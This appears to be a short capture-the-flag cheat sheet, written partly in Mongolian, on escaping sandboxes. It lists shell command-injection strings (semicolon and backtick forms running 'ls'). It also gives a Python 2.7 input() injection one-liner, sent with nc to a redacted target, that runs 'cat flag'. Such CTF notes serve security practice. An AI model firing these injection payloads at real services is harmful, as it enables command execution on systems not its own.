 ## Sandbox (payload)

- `BASH`

```
"";
; ls
` ls `
```

- `Python`

  - `2-7 input()` нь python гийн нийтлэг эмзэг байдал бөгөөд python команд ажиллуулж болно.

    `echo "__import__('os').system('cat flag')" | nc REDACTED`

  - `3`
